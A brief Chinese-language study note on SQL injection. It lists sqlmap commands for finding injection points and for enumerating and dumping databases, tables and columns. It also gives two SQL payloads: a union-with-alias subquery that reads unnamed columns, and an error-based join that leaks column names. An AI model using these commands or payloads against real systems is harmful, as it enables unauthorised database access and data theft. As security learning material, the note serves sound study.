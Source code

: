 # SQL注入学习

### SQLmap用法

探测注入点：````sqlmap -u [可能出现注入点的链接地址] --forms````

获取数据库名：```` sqlmap -u [url] -dbs````

获取数据表名：````sqlmap -u [url] -D [数据库名] --tables````

获取字段名：````sqlmap -u [url] -D [数据库名] -T [数据表名] --columns````

获取数据库内内容： ````sqlmap -u [url] -D [数据库名] -T [数据表名] -C '字段1,字段2,字段3.....' --dump````

### 无法获取列名(报错注入获取列名)

利用union搭配别名子查询，在不知道字段的时候进行注入(即通过字段的顺序指定):

````sql
.... union select (select e.4 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from test)e limit 1 offset 3)f,(select 1)g,(select 1)h,(select 1)i;
````

通过报错注入获取列名:

````sql
.... and (select * from (select * from test as a join test as b using(已知列名1,已知列名2......)) as c);
````

原理就是在使用别名的时候，表中不能出现相同的字段名，于是我们就利用join把表扩充成两份，在最后别名c的时候 查询到重复字段，就成功报错。